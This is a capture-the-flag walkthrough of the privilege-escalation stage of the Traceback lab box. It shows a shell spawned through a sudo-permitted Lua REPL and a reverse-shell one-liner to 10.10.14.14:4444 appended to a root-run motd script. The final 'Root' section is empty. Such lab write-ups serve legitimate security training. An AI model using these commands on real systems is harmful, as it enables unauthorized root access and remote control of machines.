



# 15 - PrivEsc

# note.txt
```bash
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```


# luvit
```bash
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

```

# Luvit
```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute('id')
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
true    'exit'  0
> os.execute('bash -i')
sysadmin@traceback:~$ 
```


# Motd


Motd is used to send a common message to all users. The service runs as root.

```bash
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22 06:08 .
drwxr-xr-x 80 root root     4096 Apr 22 06:08 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 10:46 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 10:46 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 10:46 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 10:46 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 10:46 91-release-upgrade
```

Sysadmin has write permission on the configuration files.

```bash
sysadmin@traceback:/etc/update-motd.d$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" >> 00-header
```

We can trigger the service to print the day of the message by just logging in.





# Root
